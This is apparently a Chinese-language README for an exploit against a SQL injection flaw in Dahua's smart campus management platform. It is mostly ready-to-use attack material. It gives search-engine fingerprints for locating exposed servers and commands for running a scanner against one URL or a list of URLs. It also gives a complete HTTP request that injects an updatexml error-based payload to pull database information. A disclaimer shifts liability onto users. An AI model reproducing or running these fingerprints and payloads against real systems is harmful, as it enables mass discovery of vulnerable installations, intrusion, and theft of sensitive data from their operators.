

# 大华智慧园区综合管理平台searchJson SQL注入

大华智慧园区综合管理平台系统存在sql注入漏洞，可获取系统敏感信息。

## 指纹

body="/WPMS/"||title="智慧园区综合管理平台"||body="/WPMS/asset/img/black/QR-code-V4.003-owner.png"||body="/WPMS/asset/img/black/zhyq.png"


## 工具利用

python3 searchJson_sqlscan.py -u http://127.0.0.1:1111 单个url测试

python3 searchJson_sqlscan.py -f url.txt 批量检测

扫描结束后会在当前目录生成vuln.txt记录存在漏洞的url



## exp

```
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20@@version),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: 127.0.0.1:8009
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2333.119 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
